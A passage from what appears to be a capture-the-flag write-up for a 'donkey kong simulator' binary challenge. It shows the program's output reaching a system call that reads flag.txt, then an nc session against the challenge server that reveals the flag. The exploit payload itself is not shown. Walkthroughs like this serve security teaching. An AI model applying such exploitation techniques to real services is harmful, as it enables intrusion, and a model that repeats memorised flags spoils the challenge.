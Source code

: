 ```
-------------------------
what do you want to do?
(1) throw a barrel
(2) tell me how many barrels i have
(3) tell me how much health mario has
(4) give up :)
> 1
you're out of barrels, sorry :(
you killed mario and won!
/bin/cat: flag.txt: No such file or directory
here's your flag:
```

Now that we've got to the function call to `system` and won the game, we can
try our exploit on the actual server, in exactly the same way.

```
$ nc challenge.whatthectf.afnom.net 4007 
welcome to donkey kong simulator 2019
try to kill mario

-------------------------
what do you want to do?
(1) throw a barrel
(2) tell me how many barrels i have
(3) tell me how much health mario has
(4) give up :)

[...]

you're out of barrels, sorry :(
you killed mario and won!
AFNOM{Y0U_GL1TCHED_ME_2_HARD}
here's your flag:
```
